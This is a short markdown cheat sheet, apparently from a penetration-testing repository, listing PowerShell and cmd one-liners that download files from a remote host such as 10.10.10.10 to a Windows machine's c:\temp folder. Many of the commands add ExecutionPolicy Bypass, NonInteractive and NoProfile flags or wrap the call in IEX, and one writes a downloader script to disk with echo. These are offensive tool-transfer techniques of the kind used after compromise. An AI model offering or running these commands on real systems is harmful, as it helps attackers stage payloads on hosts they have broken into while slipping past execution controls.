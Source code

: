 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Download**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Powershell Direct URI**
	
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Web Content Download**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Powershell Wget**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"	

**Web Content Download**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Using file**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------


USING CMD - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.143/1.txt','c:\temp\1.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'C:\temp\1.txt'"

**Web Content Download**
	
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')"

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"


